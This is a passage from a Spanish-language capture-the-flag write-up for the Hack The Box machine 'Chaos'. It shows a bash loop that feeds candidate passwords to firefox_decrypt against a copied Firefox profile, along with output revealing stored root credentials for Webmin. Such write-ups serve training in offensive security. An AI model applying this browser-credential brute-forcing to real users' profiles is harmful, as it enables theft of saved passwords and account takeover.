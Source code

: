 Nos `descargamos` esta `herramienta` [https://github.com/unode/firefox_decrypt.git](https://github.com/unode/firefox_decrypt.git) y nos creamos un `fichero` con todas las `contraseñas` que tenemos hasta ahora

```
# cat passwords 
jiujitsu
inner[OnCag8
sahay
```

Me he creado este `script` para hacer `fuerza bruta`

```
# cat bruteforce.sh 
#!/bin/bash

#./brute.sh top-passwords.txt 2>/dev/null | grep -A2 -B2 "chrome:"
passfile=$1
while read pass; do
  echo "Trying $pass"
  echo "$pass" | python firefox_decrypt.py /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
done < $passfile
```

Ejecutamos el `script de fuerza bruta` y la contraseña usada para proteger el archivo era `jiujitsu`. Ahora tenemos una `autenticación` contra el servicio `Webmin` con las `credenciales` del usuario `root`

```
# ./bruteforce.sh passwords 
Trying jiujitsu
2024-10-13 11:44:07,347 - WARNING - profile.ini not found in /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
2024-10-13 11:44:07,347 - WARNING - Continuing and assuming '/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default' is a profile location
Reading Primary password from standard input:

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
Trying inner[OnCag8
2024-10-13 11:44:07,421 - WARNING - profile.ini not found in /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
2024-10-13 11:44:07,421 - WARNING - Continuing and assuming '/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default' is a profile location
Reading Primary password from standard input:
2024-10-13 11:44:07,423 - ERROR - Primary password is not correct
Trying sahay
2024-10-13 11:44:07,494 - WARNING - profile.ini not found in /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
2024-10-13 11:44:07,494 - WARNING - Continuing and assuming '/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default' is a profile location
Reading Primary password from standard input:
2024-10-13 11:44:07,496 - ERROR - Primary password is not correct
```
